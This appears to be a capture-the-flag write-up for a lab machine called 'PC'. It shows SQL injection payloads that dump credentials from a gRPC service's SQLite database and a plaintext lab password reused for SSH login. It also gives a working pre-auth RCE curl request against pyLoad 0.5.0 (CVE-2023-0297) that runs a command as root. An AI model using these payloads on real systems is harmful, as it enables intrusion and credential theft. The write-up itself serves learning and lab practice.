


# PC

## Inital Foothold

Nmap port scan indicated two open ports: 22/ssh and 50051.
Google search for port 50051 revealed that this is a gRPC port.


I used [grpcui](https://github.com/fullstorydev/grpcui) to explore the gRPC service.
The application provides a web interface to interact with the gRPC service.


The application is vulnerable to SQL injection in the `id` parameter of the `getInfo` method.
The following payload proofes the vulnerability:
```123456 or 1=1; --```


## User flag

Exploring the sqli vulnerability further with burp, I found that the application runs a sqlite database.
I finally extracted all data from the accounts table using the payload `1 and 1=2 union SELECT GROUP_CONCAT(username || ':' || password) from accounts; --`

This revealed the credentials of the user `sau:HereIsYourPassWord1431`.
I used these credentials to login via ssh and got the user flag.

## Root flag

After uploaden `pyspy` to the machine, I found that the application runs an instance of [pyload](https://pyload.net/) as root.
The server is listening on `127.0.0.1:8000`.
Pyload is [vulnerable to RCE](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad) in version `0.5.0`.
The vulnerability can be triggered without authentication by sending the following POST data.
It executed the command `cp /root/root.txt /tmp/root.txt` on the machine as root user:

```bash
curl -i -s -k -X $'POST'     --data-binary $'jk=pyimport%20os;os.system(\"cp /root/root.txt /tmp/root.txt\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa'     $'http://127.0.0.1:8000/flash/addcrypted2'
```
